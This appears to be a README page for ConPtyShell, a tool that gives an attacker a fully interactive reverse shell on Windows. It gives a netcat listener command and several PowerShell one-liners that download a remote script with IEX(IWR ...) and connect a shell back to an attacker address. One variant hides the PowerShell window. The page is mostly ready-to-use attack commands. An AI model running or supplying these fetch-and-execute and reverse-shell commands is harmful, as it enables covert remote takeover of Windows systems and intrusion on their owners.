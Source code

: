 
## Fully interactive reverse shell on Windows
The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.

**ConPtyShell uses the function [CreatePseudoConsole()](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole). This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**


Server Side:

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Client Side:

```hidden
start-process PowerShell.exe -windowstyle hidden "IEX(IWR https://raw.githubusercontent.com/khashino/tutorials/master/Hacks/ReverceShell/PowerShell/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.137.6 3001"
```
```
IEX(IWR https://raw.githubusercontent.com/khashino/tutorials/master/Hacks/ReverceShell/PowerShell/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```
```
IEX(IWR https://raw.githubusercontent.com/khashino/tutorials/master/Hacks/ReverceShell/PowerShell/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

Offline version of the ps1 available at --> https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1
